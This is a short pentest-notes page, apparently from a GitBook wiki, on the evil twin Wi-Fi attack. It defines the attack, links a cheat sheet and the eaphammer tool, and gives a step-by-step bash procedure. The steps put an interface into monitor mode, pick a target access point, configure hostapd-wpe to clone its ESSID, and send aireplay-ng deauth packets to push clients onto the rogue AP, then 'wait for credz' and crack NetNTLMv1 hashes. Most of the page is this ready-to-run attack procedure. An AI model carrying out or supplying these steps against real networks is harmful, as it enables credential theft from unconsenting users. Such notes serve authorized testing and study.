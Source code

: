 # 👹 EvilTwin

{% hint style="info" %}
An evil twin is a **fraudulent Wi-Fi access point** that appears to be legitimate but is set up to eavesdrop on wireless communications.&#x20;

The evil twin is the wireless LAN equivalent of the **phishing** scam.
{% endhint %}

{% embed url="https://cheatsheet.haax.fr/wireless/rogue_ap#evil-twin-attack" %}
Evil Twin CheatSheet - Source
{% endembed %}

{% embed url="https://github.com/s0lst1c3/eaphammer" %}
Tool for Evil Twin
{% endembed %}

```bash
# 1/ Start monitoring mode
# If you plan to use deauth attack, connect the 2 eth interfaces at the same time
# To avoid having wlan0mon and wlan0 (it can conflict)
sudo airmon-ng start wlan0

# 2/ If process are blocking the monitoring mode, kill them
sudo airmon-ng check kill
sudo kill <PID>

# 3/ Get the target AP (ESSID)
# Your target can have multiples AP, and so multiples MAC addresses
# They can run on differents channels
sudo airodump wlan0mon

# 4/ Then set the target in the configuration file
sudo nano /etc/hostapd-wpe/hostapd-wpe.conf
ssid=<ESSID>

# 5/ Start AP
# You will only get people that newly connects to the target AP
# If you want to get people already connected, you need to push the attack further with deauth
sudo hostapd-wpe /etc/hostapd-wpe/hostapd-wpe.conf

# 6/ Start the second ethernet interface
sudo airmon-ng start wlan1

# 7/ Deauth (In another terminal)
# Based on the differents ESSID and channels found in step 3
# -0 is the number of deauth packet sent
sudo aireplay-ng -0 10 -a <mac address> -c <channel>

# Then wait for credz \o/
# You will probably get NetNTLMv1 hashes you will need to crack
```
